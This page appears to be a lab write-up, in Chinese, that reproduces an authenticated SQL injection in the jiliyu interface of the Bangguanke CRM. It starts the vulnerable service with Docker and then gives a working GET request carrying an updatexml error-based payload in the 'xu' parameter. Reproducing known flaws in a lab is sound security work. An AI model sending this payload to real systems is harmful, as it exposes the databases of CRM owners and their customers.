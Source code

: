 # 帮管客 CRM jiliyu SQL注入漏洞

帮管客CRM客户管理系统基于先进的CRM营销理念设计，集客户档案、销售记录、业务往来于一身，以凝聚客户关系、提升资源价值为核心，将潜在客户变为现实客户、从而提升销售量、提高用户的满意度，并增加企业竞争力。帮管客CRM是适用于中小企业的通用型客户关系管理系统，融合了帮管客软件长期从事管理软件开发的丰富经验与先进技术，该系统采用领先的B/S(浏览器/服务器)操作方式，使得网络办公不受地域限制。在功能上注重实用、易用、安全、稳定。在性能方面也表现优异，使用普通PC服务器即可实现百人级别的并发应用。 帮管客CRM客户管理系统 采用基于WEB的企业计算，采用php+MySQL进行开发，性能稳定可靠。数据存取集中控制，避免了数据泄漏的可能。采用加密数据传递参数，保护系统数据安全。多级的权限控制，完善的密码验证与登录机制更加强了系统安全性。

帮管客CRM 客户管理系统/index.php/jiliyu 接口存在 sql 注入漏洞，攻击者可通过此漏洞获取数据库敏感信息。

产品官网

https://www.bgk100.com/

参考链接：

- 



## 漏洞环境

执行如下命令启动一个BGJCRM5-v5.1.2-web服务：

```
docker compose up 
```

服务启动后，可访问`http://your-ip:80/`将自动跳转到BGJCRM安装向导界面

![image-20240319145702866](./1.png)

## 漏洞复现

需要先登录下后台

![image-20240319145816127](./2.png)

之后发送url

`GET /index.php/jiliyu?keyword=1&page=1&pai=id&sou=soufast&timedsc=%E6%BF%80%E5%8A%B1%E8%AF%AD%E5%88%97%E8%A1%A8&xu=and%201=(updatexml(1,concat(0x7e,(select%20md5(123)),0x7e),1)) HTTP/1.1`

![image-20240319150246000](./3.png)